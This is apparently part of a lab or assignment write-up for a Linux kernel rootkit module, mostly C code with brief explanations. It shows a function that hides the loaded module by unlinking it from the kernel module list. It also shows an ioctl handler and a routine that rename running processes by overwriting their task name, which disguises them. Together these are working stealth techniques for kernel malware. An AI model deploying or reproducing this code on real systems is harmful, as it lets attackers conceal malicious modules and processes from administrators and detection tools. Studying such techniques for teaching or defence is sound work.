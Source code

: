 ```c=
void module_hide(void)
{
    /* Save the module in the list before us, so we can add ourselves
     * back to the list in the same place later. */
    prev_module = THIS_MODULE->list.prev;
    /* Remove ourselves from the list module list */
    list_del(&THIS_MODULE->list);
    hidden = 1;
    printk(KERN_INFO "module hidden\n");
}
```
**Masquerade process name**
First, fetch the required data structure from the user space into the kernel space, and then call 'change_process_name' to replace the name. According to the specifications, if the length of the new name is greater than or equal to the old name, skip the process.
```c= 
case IOCTL_MOD_MASQ:
    if (copy_from_user(&user_req, (struct masq_proc_req *)arg, sizeof(struct masq_proc_req)))
        return -EFAULT;

    req_array = kmalloc_array(user_req.len, sizeof(struct masq_proc), GFP_KERNEL);
    if (!req_array) {
        printk(KERN_INFO "Memory allocation failed\n");
        return -ENOMEM;
    }

    if (copy_from_user(req_array, user_req.list, user_req.len * sizeof(struct masq_proc))) {
        kfree(req_array);
        return -EFAULT;
    }

    for (i = 0; i < user_req.len; ++i) {
        if (strlen(req_array[i].new_name) >= strlen(req_array[i].orig_name)) {
        // printk(KERN_INFO "Error: New name '%s' should be shorter than original name '%s'\n", req_array[i].new_name, req_array[i].orig_name);
            continue;
        }
        change_process_name(req_array[i].orig_name, req_array[i].new_name);
        // printk(KERN_INFO "Received masq_proc[%zu]: Original name: %s, New name: %s\n", i, req_array[i].orig_name, req_array[i].new_name);
    }
```
Find the corresponding process name within the process and replace it.

```c=
int change_process_name(const char *orig_name, const char *new_name) {
    struct task_struct *p = NULL;
    int found = 0;
    
    for_each_process(p) {
        if (strcmp(p->comm, orig_name) == 0) {
            strncpy(p->comm, new_name, TASK_COMM_LEN - 1);
            p->comm[TASK_COMM_LEN - 1] = '\0'; // make sure string tail is NULL 
            found = 1;
            printk(KERN_INFO "Process with original name '%s' found and renamed to '%s'\n", orig_name, new_name);
        }
    }

    return found ? 0 : -1;
}

```
